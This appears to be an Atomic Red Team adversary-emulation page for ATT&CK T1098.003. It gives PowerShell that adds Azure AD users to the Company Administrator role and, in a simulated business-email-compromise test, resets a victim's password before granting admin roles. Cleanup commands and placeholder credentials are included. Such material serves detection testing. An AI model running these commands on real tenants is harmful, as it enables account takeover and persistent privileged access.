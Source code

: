 ```yaml
---
tags: [T1098_003, atomic_test]
filename: "[[T1098.003|T1098.003 - Account Manipulation: Additional Cloud Roles]]"
---
```

# T1098.003 - Account Manipulation: Additional Cloud Roles

## Atomic Test #1 - Azure AD - Add Company Administrator Role to a user
Add an existing Azure user account the Company Administrator Role.

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 4d77f913-56f5-4a14-b4b1-bf7bb24298ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| target_user | Name of the user who will be assigned the Company Admin role | string | default|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module MSOnline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:
```powershell
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```



#### Dependencies:  Run with `powershell`!
##### Description: MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name MSOnline -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name MSOnline -Force
```




<br/>
<br/>

## Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role
This test looks at simulating the an adversary described in the following blog post. It involves resetting the password of a normal user and adding to the company administrator role within M365.
 Reference: https://www.huntress.com/blog/business-email-compromise-via-azure-administrative-privileges

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 14f3af20-61f1-45b8-ad31-4637815f3f44





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| auth_username | Azure AD username used to conduct the adversary activity | string | jonh@contoso.com|
| auth_password | Azure AD password for user auth_username | string | p4sswd|
| target_user | Name of the user whose password be reset and added to the admin role. | string | default|
| target_password | The password that the user target_user will be reset to. | string | Ohn05GeMe#$|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module MSOnline
Import-Module AzureAD
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
$targetsecurepw = ConvertTo-SecureString -String "#{target_password}" -AsPlainText -Force
Connect-MsolService -Credential $credential -ErrorAction:SilentlyContinue
Connect-AzureAD -Credential $credential -ErrorAction:SilentlyContinue

#Saving the ObjectId of the target_user into a variable
$target_objid = Get-AzureADUser -filter "userPrincipalName eq '#{target_user}'" | Select-Object -ExpandProperty ObjectId

#Reset the password of the target_user
Set-AzureADUserPassword -ObjectId  $target_objid -Password $targetsecurepw -ErrorAction:SilentlyContinue

#Adding target_user
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
Add-MsolRoleMember -RoleName "Global Reader" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:
```powershell
Import-Module MSOnline
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-MsolService -Credential $credential
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
Remove-MsolRoleMember -RoleName "Global Reader" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```



#### Dependencies:  Run with `powershell`!
##### Description: MSOnline and AzureAD modules must be installed.
##### Check Prereq Commands:
```powershell
$required_mods = 'AzureAD', 'MSOnline'
$installed_mods = @((Get-Module $required_mods -ListAvailable -ErrorAction SilentlyContinue).Name  | Select-Object -Unique)
$notInstalled = Compare-Object $required_mods $installed_mods -PassThru -ErrorAction SilentlyContinue

if ($notInstalled) {
# Prompt for installing the missing ones.
Write-Output "The following PS modules aren't currently installed:"
$notInstalled
  exit 1
}

 else{
  Write-Output "All required PS modules are installed"
  exit 0
 }
```
##### Get Prereq Commands:
```powershell
Install-Module -Name MSOnline -Scope CurrentUser -Force
Install-Module -Name AzureAD -Scope CurrentUser -Force
```




<br/>
